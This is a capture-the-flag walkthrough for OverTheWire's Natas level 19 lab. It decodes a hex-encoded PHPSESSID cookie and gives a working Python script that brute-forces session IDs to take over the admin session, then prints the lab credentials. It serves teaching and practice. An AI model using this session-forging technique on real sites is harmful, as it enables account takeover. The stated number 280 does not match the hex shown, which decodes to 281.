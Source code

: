 
> Since the source code is the same as the previous level, we will possibly brute force on session ID's.
> Logging in as any user, we see that the `PHPSESSID` cookie is set to a long string of numbers and characters. This might be hex.

```
3237362d61646d696e
```

> Using a hex decoder, we see that the `PHPSESSID` cookie is in this format:

```
number-username
```
> Its a number, followed by a `-`, followed by the username that we entered as input.

> Therefore, we can try setting username to `admin`, and bruteforcing that number from 1 to 640 like last challenge.
> Using this python code:

```python
import requests
import binascii
import re
from string import *

auth_username = "natas19"
auth_password = "8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s"
url = "http://natas19.natas.labs.overthewire.org/"

session = requests.Session()

for i in range(1, 641):
    cookie = binascii.hexlify(str.encode(str(i) + "-admin")).decode("utf-8")
    req = session.get(url, auth=(auth_username, auth_password), cookies={"PHPSESSID": cookie})
    if "You are an admin" in req.text:
        print(req.text)
        break
    print(i)
```

> Running the code, we see that it stops when the number is `280`.
> This makes the cookie to look like this: 
```
3238312d61646d696e
```

> Decoding from hex, this equals to: `280-admin`.

![](./screenshots/19-1.png)

> The password for the next level:

```
natas20:guVaZ3ET35LbgbFMoaN5tFcYT1jEP7UH
```

---
